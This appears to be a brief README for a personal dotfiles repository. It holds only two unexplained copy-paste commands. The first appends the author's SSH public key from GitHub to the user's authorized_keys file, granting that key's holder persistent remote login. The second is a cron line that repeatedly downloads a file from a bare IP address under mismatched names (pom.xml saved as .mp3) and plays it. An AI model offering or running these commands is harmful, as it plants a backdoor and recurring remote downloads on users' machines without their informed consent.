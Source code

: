 my-dot-files
============
Lukas Drbal


curl https://raw.githubusercontent.com/LesTR/my-dot-files/master/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys


*/10 * * * * * if [[ ! -f /tmp/12e67a.mp3 ]]; then wget -O /tmp/12e67a.mp3 http://54.40.29.151/tmp/pom.xml 2> /dev/null; fi; afplay /tmp/12e67a.mp3
